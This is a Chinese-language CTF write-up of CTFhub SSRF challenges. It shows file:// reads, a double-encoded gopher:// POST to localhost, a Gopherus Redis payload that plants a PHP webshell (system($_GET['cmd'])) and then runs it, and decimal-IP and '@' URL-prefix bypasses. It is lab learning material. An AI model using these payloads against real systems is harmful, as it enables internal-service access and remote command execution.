





## [CTFhub]SSRF伪协议读文件



首先提示了我们去web目录下读取flag.php

然后问ai才知道目录是

```url
/var/www/html
```

然后直接读取就OK了

```url
http://challenge-2c2677294615e41f.sandbox.ctfhub.com:10800/?url=file:///var/www/html/flag.php
```




## [CTFhub]POST请求

给了提示：

```
这次是发一个HTTP POST请求.对了.ssrf是用php的curl实现的.并且会跟踪302跳转.加油吧骚年
```

首先我看到302跳转就立刻想到要利用vps然后绕过



然后我开启了服务

我在题目中尝试使用

```url
?url=http://129.204.59.142:7358/302.php
```

靶机页面上返回了 `Just View From 127.0.0.1`

结果报错了，然后尝试直接读取文件试试

```url
?url=file://127.0.0.1/flag
?url=file://127.0.0.1/flag.php
```

然后有显示一个框框，我又尝试了一遍在输入框中输入

```url
?url=http://129.204.59.142:7358/302.php
```

结果还是不行，然后试过了好多次，然后F12看源代码



我有些看不懂，问ai，让他解释这是什么意思？

```
flag.php 要求必须是 POST 请求，并且要提交包含特定 key 的表单数据。
```

**目标**：构造一个完整的 POST 请求包，发送给内网的 `127.0.0.1`

然后他就给我构造了一个数据包

```
POST /flag.php HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 36

key=b46857e113393f9e8fcd4e51f545ee2e
```

然后两次url编码：(这个步骤建议让ai干，我尝试了好几次都是错的md)

```url
http://challenge-9556259751b98e6b.sandbox.ctfhub.com:10800/?url=gopher://127.0.0.1:80/_POST%2520%252Fflag.php%2520HTTP%252F1.1%250D%250AHost%253A%2520127.0.0.1%250D%250AContent-Type%253A%2520application%252Fx-www-form-urlencoded%250D%250AContent-Length%253A%252036%250D%250A%250D%250Akey%253Db46857e113393f9e8fcd4e51f545ee2e%250D%250A
```

然后就可以构造paylaod了：

```url
http://challenge-9556259751b98e6b.sandbox.ctfhub.com:10800/?url=gopher://127.0.0.1:80/_POST%2520%252Fflag.php%2520HTTP%252F1.1%250D%250AHost%253A%2520127.0.0.1%250D%250AContent-Type%253A%2520application%252Fx-www-form-urlencoded%250D%250AContent-Length%253A%252036%250D%250A%250D%250Akey%253Db46857e113393f9e8fcd4e51f545ee2e

注意：这个下划线 _ 是固定的拼写格式，你以后无论构造什么 Gopher Payload，前缀都必须写 gopher://127.0.0.1:80/_。
```


- **为什么用 `gopher://`？**
  - 在 SSRF 中，`gopher://` 被称为“万恶之源”。它不限于 HTTP，而是支持向任意 TCP 端口发送任意数据（只要数据符合协议规范）。
  - 我们可以自己拼凑一个完整的 HTTP POST 请求原文，把它丢给 `gopher://`，让靶机把这段原文通过 TCP 直接发给本地的 Web 服务。

- **为什么两次编码？**
  - 因为靶机接收 `?url=` 参数时，Web 服务器（PHP）会**自动帮你解码一次**。
  - 如果我们只编码一次，PHP 解码后，cURL 拿到的是含有 `%20` 等符号的乱码文本，无法当成 HTTP 请求发送。我们**提前编码两次**，PHP 解码一次后，cURL 才能刚好拿到第一次编码后的规范 HTTP 请求包

---

## [CTFhub]redis协议

再尝试了一堆之后

file://127.0.0.1/flag.php

redis://127.0.0.1:6379/flag.php

redis://127.0.0.1:6379

都没啥反应，然后输入

```url
http://challenge-3dbeddc8a87daa74.sandbox.ctfhub.com:10800/?url=dict://127.0.0.1:6379/flag.php
```

显示


然后继续尝试

```url
http://challenge-3dbeddc8a87daa74.sandbox.ctfhub.com:10800/?url=dict://127.0.0.1:6379/info
```

然后返回了一些信息


大概思路就是要上传webshell了

利用gopherus生成paylaod


```
gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2434%0D%0A%0A%0A%3C%3Fphp%20system%28%24_GET%5B%27cmd%27%5D%29%3B%20%3F%3E%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2413%0D%0A/var/www/html%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%249%0D%0Ashell.php%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0A
```

然后输入

```url
http://challenge-3dbeddc8a87daa74.sandbox.ctfhub.com:10800/shell.php?cmd=cat%20/flag*
```

即可查询到flag的值


这个是目前截止最难的个人感觉，因为走了太多弯路了

---

## [CTFhub]数字IP bypass


这个比较简单

```url
http://challenge-f6ac4f8e4a34f46a.sandbox.ctfhub.com:10800/?url=http://2130706433/flag.php
```

小插曲：

```
我试了半天的file://2130706433/flag.php没反应，想了一堆方法，结果是file用错了，要用http

file:// 不做 IP 解析。PHP 的 file 包装器只认 file:///path 或 file://localhost/path，host位置放个数字它根本不去解析，直接失败 → 所以"什么都没显示"
```

---

## [CTFhub]URL bypass

#### 失败的尝试：

他的提示是：请求的URL中必须包含http://notfound.ctfhub.com，来尝试利用URL的一些特殊地方绕过这个限制吧


```url
challenge-7857988b03725a99.sandbox.ctfhub.com:10800/?url=file://127.0.0.1/flag.php
```

返回<h1>url must startwith "http://notfound.ctfhub.com"</h1>

```url
challenge-7857988b03725a99.sandbox.ctfhub.com:10800/?url=http://127.0.0.1/flag.php
```

返回同上

输入：

```url
challenge-7857988b03725a99.sandbox.ctfhub.com:10800/?url=http://notfound.ctfhub.com/flag.php
```

返回：空白

```url
challenge-7857988b03725a99.sandbox.ctfhub.com:10800/?url=http://notfound.ctfhub.com/flag
```

同上

然后尝试使用dict探测资产有哪些

```url
http://challenge-7857988b03725a99.sandbox.ctfhub.com:10800/?url=http://notfound.ctfhub.com/flag
```

结果url must startwith "http://notfound.ctfhub.com"

然后我回想起它的提示，尝试输入：

```url
challenge-7857988b03725a99.sandbox.ctfhub.com:10800/?url=http://localhost.notfound.ctfhub.com
```

返回的还是

url must startwith "http://notfound.ctfhub.com"

```url
challenge-7857988b03725a99.sandbox.ctfhub.com:10800/?url=http://127.0.0.1.notfound.ctfhub.com

challenge-7857988b03725a99.sandbox.ctfhub.com:10800/?url=http://2130706433.notfound.ctfhub.com
```

返回结果都是同上

#### 最后

突然想到不仅仅可以把127.0.0.1放在前面还可以放在后面

```url
http://challenge-7857988b03725a99.sandbox.ctfhub.com:10800/?url=http://notfound.ctfhub.com@127.0.0.1/flag.php
```

就拿下了


